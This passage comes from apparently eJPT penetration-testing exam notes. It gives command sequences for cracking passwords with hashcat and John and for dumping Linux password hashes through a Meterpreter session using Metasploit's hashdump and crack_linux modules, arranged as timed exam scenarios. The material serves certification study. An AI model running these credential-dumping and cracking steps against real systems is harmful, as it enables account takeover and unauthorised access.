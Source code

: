#### **Level 3 - Possible (60% Chance):**
```bash
# GPU-accelerated cracking with Hashcat
hashcat -m 1800 -a 0 hash_file /usr/share/wordlists/rockyou.txt
# Expected: High-performance password recovery

# Interactive hash identification
hash-identifier
# Expected: Step-by-step hash analysis process

# Advanced Metasploit database operations
db_nmap -p 21,22,80,443 target_range
# Expected: Database integration for comprehensive attacks
```

### **🎯 Common eJPT Exam Scenarios:**

#### **Scenario 1: Linux System Password Recovery**
**Given:** Meterpreter session on compromised Linux system
**Your Job:** Extract and crack user password hashes
**Time Limit:** 10-12 minutes

**Step-by-Step Approach:**
```bash
# Step 1: Verify session access (1 minute)
sessions -l
sessions -i 1
getuid

# Step 2: Extract password hashes (2 minutes)
use post/linux/gather/hashdump
set SESSION 1
exploit

# Step 3: Automated cracking attempt (3 minutes)
use auxiliary/analyze/crack_linux
set SHA512 true
run

# Step 4: Manual verification if needed (3 minutes)
john --show /root/.msf4/loot/*linux.hashes*.txt

# Step 5: Document results (2 minutes)
# Note recovered passwords and access levels
```

#### **Scenario 2: Multi-User Password Analysis**
**Given:** Hash file with multiple user accounts
**Your Job:** Crack passwords and identify privilege levels
**Time Limit:** 8-10 minutes

**Step-by-Step Approach:**
```bash
# Step 1: Analyze hash file contents (2 minutes)
cat hash_file.txt
wc -l hash_file.txt  # Count number of accounts

# Step 2: Identify hash types (1 minute)
head -1 hash_file.txt | cut -d: -f2 | hashid

# Step 3: Automated cracking (4 minutes)
use auxiliary/analyze/crack_linux
set SHA512 true
run

```
